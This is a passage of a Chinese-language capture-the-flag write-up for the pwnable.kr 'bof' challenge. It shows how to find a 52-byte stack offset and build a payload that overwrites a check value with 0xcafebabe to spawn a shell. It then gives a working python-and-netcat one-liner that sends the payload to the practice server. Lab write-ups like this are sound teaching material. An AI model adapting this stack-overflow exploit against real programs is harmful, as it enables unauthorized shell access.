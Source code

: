 理清过程后，剩下的就只需要找到输入字符串指针距离 `0xbffff590` 的偏移即可。由于之前使用了特殊的 payload，这时候我们查看一下输入字符串周围的堆栈情况。

![img](/images/articles/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-6.png)

可以看到刚才输入的 payload 已经覆盖到了 `0xbffff590` 处的值，但是并不是程序需要的 `0xcafebabe`，使用 `pattern offset` 来计算偏移。

![img](/images/articles/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-7.png)

可以看到，`0xbffff590` 距离字符串开头的偏移为52个字节，因此为了成功地使程序跳转执行system("/bin/sh")，我们构造的输入字符串就应该为：

    "A" * 52 + "\xbe\xba\xfe\xca"
    
此时，直接使用命令行远程打 payload：

    (python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
    
![img](/images/articles/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-8.png)
